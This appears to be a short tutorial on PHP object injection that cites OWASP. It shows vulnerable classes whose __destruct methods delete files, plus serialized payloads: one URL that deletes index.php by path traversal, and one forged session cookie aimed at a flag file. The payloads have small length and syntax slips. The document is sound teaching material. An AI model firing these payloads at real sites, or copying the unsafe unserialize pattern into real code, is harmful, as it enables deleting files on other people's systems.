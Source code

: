 Object injection occurs when an application deserializes untrusted data.  The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the `unserialize()` PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable `unserialize()` call, resulting in an arbitrary PHP object(s) injection into the application scope.

# Example 1 
The example below shows a PHP class with an exploitable `__destruct` method:
```php
class Example1{
   public $cache_file;

   function __construct(){
      // some PHP code...
   }

   function __destruct(){
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}

$user_data = unserialize($_GET['data']);
```
In this example an attacker might be able to delete an arbitrary file via a Path Traversal attack.
```
http://testsite.com/vuln.php?data=O:8:"Example1":1 {s:10:"cache_file";s:15:"../../index.php";}
```

# Example 2
Again, in the example below the vulnerable function is the `__destruct` method. It takes a file and deletes it.
**Scenario and Steps**: 
- This code is deployed and is part of a web app. 
- The user has a session cookie assigned to their session.
- The attacker needs to create a template that will serve as the session cookie.
	```
	O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/user/flag.txt";
	```
- URL and Base64 encode the template above and replace it with the current cookie.

```php
class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }
    
    function __destruct() {
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
```

# References
- [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)